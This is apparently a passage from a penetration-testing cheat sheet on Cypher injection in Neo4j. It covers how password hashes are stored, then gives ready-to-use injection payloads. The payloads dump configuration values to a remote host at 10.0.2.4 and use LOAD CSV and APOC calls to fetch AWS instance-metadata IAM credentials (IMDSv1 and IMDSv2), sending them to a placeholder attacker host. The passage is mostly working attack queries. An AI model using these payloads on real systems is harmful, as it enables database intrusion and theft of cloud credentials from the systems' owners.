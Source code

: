 Neo4j uses SimpleHash by Apache Shiro to generate the hash.

The result is stored as a comma-separated values string:

* Hashing algorithm
* Hash
* Salt
* Iterations

**For example:**

```plaintext
SHA-256, 8a80d3ba24d91ef934ce87c6e018d4c17efc939d5950f92c19ea29d7e88b562c,a92f9b1c571bf00e0483effbf39c4a13d136040af4e256d5a978d265308f7270,1024 
```

### **Get environment variables**

Using APOC, it is possible to retrieve the environment variable by using the procedure **`apoc.config.map()`** or **`apoc.config.list()`**.

These procedures can only be used if they are included in the list of unrestricted procedures in the conf file (dbms.security.procedures.unrestricted). This is more common than one might think, and Googling the setting name results in many sites and guides that advise adding the value “apoc.\*”, which allows all APOC procedures.

```sql
' OR 1=1 CALL apoc.config.list() YIELD key, value LOAD CSV FROM 'http://10.0.2.4:8000/?'+key+"="+" A B C" as l RETURN 1 // 
```

**Note:** in Neo4j5 the procedures were moved to APOC extended.

### AWS Cloud Metadata Endpoint

#### IMDSv1

{% code overflow="wrap" %}
```sql
LOAD CSV FROM ' http://169.254.169.254/latest/meta-data/iam/security-credentials/' AS roles UNWIND roles AS role LOAD CSV FROM ' http://169.254.169.254/latest/meta-data/iam/security-credentials/'+role as l
  
WITH collect(l) AS _t LOAD CSV FROM 'http://{attacker_ip}/' + substring(_t[4][0],19, 20)+'_'+substring(_t[5][0],23, 40)+'_'+substring(_t[6][0],13, 1044) AS _ 
```
{% endcode %}

#### IMDSv2

We need to **specify headers** and we need to **use methods other than GET**.

**`LOAD CSV`** can't do either of these things, but we can use **`apoc.load.csvParams`** to get the token and the role, and then **`apoc.load.jsonParams`** to get the credentials themselves. The reason we use csvParams is that the response is not a valid JSON.

{% code overflow="wrap" %}
```sql
CALL apoc.load.csvParams("http://169.254.169.254/latest/api/token", {method: "PUT",`X-aws-ec2-metadata-token-ttl-seconds`:21600},"",{header:FALSE}) yield list WITH list[0] as token 

CALL apoc.load.csvParams("http://169.254.169.254/latest/meta-data/iam/security-credentials/", { `X-aws-ec2-metadata-token`:token},null,{header:FALSE}) yield list UNWIND list as role  

CALL apoc.load.jsonParams("http://169.254.169.254/latest/meta-data/iam/security-credentials/"+role,{ `X-aws-ec2-metadata-token`:token },null,"") yield value as value 
```
{% endcode %}

